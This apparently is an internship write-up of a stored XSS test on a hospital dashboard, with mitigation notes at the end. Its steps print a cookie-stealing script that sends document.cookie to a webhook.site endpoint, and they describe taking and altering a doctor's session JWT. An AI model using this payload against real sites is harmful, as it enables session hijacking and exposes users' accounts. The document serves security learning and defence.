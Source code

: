 # XSS

##  What I Did
I tested for **Stored Cross-Site Scripting (XSS)** on a custom hospital dashboard. Injected JavaScript inside the patient message input, and it got executed across all user dashboards (Stored XSS).

---

##  Tools Used
- XSS vulnerable site
- JavaScript payloads
- webhook.site (for capturing cookies, optional)
- DevTools (Application tab)

---

## Screenshot – Stored XSS Triggered
![xss](../images/xss.jpg)

---

##  Steps

### 1. Injected the payload in “Patient Message”:

<script>alert(document.cookie)</script>

### 2. Used Cookie Stealer

<script>fetch("https://webhook.site/YOUR-ID?cookie=" + document.cookie)</script>
This payload secretly sent the cookies of the doctor user to my webhook endpoint.

3. Checked DevTools → Application → Cookies
Grabbed the session JWT from the browser

Used jwt.io to decode the token and modify if needed

## XSS Types Explored During Internship

### 1.Reflected-Payload executes immediately 
### 2.Stored-Payload is saved in DB, affects all users
### 3.DOM-Based	Executed via JS logic, not saved on server

## Fixes from Internship Notes
### 1.HttpOnly Cookie
Prevent JavaScript from reading cookies

### 2.Whitelist Inputs
Only allow valid characters, block <script> and JS tags

### 3.Use Proper Escaping
Encode HTML special chars before rendering

### 4.Enable SameSite + Secure Flags
Prevents cross-origin and insecure transfers

### 5.JWT Security
Use strong signature algo (RS256), never trust user-controlled JWTs blindly
